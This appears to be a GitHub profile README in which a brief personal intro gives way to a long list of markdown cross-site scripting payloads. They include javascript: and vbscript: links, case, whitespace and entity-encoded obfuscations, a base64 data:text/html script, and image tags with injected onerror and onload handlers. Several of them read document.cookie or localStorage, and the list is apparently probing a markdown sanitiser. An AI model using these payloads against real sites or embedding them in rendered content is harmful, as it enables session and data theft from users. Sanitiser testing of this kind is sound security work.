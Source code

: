 ### Hi there 👋

- 🌱 I’m currently learning Flutter...

More Details, see [LinkedIn](https://www.linkedin.com/in/prachya-saechua/) 

hello [hack](javascript:javascript:alert('xss'))
```javascript
> hello <a name="n"
> href="javascript:alert('xss')">*you*</a>
```
%3Ca+href%3D%22%01java%03script%3Aconfirm%28document.domain%29%22%3EClick+to+execute%3Ca%3E%0D%0A

[Basic](javascript:alert('Basic'))
[Local Storage](javascript:alert(JSON.stringify(localStorage)))
[CaseInsensitive](JaVaScRiPt:alert('CaseInsensitive'))
[URL](javascript://www.google.com%0Aalert('URL'))
[In Quotes]('javascript:alert("InQuotes")')
![Escape SRC - onload](https://www.example.com/image.png"onload="alert('ImageOnLoad'))
![Escape SRC - onerror]("onerror="alert('ImageOnError'))
[XSS](javascript:prompt(document.cookie))
[XSS](j    a   v   a   s   c   r   i   p   t:prompt(document.cookie))
[XSS](data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4K)
[XSS](&#x6A&#x61&#x76&#x61&#x73&#x63&#x72&#x69&#x70&#x74&#x3A&#x61&#x6C&#x65&#x72&#x74&#x28&#x27&#x58&#x53&#x53&#x27&#x29)
[XSS]: (javascript:prompt(document.cookie))
[XSS](javascript:window.onerror=alert;throw%20document.cookie)
[XSS](javascript://%0d%0aprompt(1))
[XSS](javascript://%0d%0aprompt(1);com)
[XSS](javascript:window.onerror=alert;throw%20document.cookie)
[XSS](javascript://%0d%0awindow.onerror=alert;throw%20document.cookie)
[XSS](vbscript:alert(document.domain))
[XSS](javascript:this;alert(1))
[XSS](javascript:this;alert(1&#41;)
[XSS](javascript&#58this;alert(1&#41;)
[XSS](Javas&#99;ript:alert(1&#41;)
[XSS](Javas%26%2399;ript:alert(1&#41;)


[XSS](javascript:alert&#65534;(0&#41;)

[XSS](data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4K)
[XSS](javascript:confirm(1)
[XSS](javascript://www.google.com%0Aprompt(1))

[XSS](javascript://%0d%0aconfirm(1);com)
[XSS](javascript:window.onerror=confirm;throw%201)
[XSS](�javascript:alert(document.domain&#41;)
![XSS](javascript:prompt(document.cookie))\
![XSS](data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4K)\
![XSS'"`onerror=prompt(document.cookie)](x)

![XSS'"`onerror=prompt(document.cookie)](javascript://%0d%0aprompt(1);com)\

![Escape SRC - onerror]("onerror="alert('ImageOnError'))

![Escape SRC - onload](onload="alert('ImageOnLoad'))


<!--
**blackb1rd/blackb1rd** is a ✨ _special_ ✨ repository because its `README.md` (this file) appears on your GitHub profile.

Here are some ideas to get you started:

- 🔭 I’m currently working on ...
- 🌱 I’m currently learning ...
- 👯 I’m looking to collaborate on ...
- 🤔 I’m looking for help with ...
- 💬 Ask me about ...
- 📫 How to reach me: ...
- 😄 Pronouns: ...
- ⚡ Fun fact: ...
-->
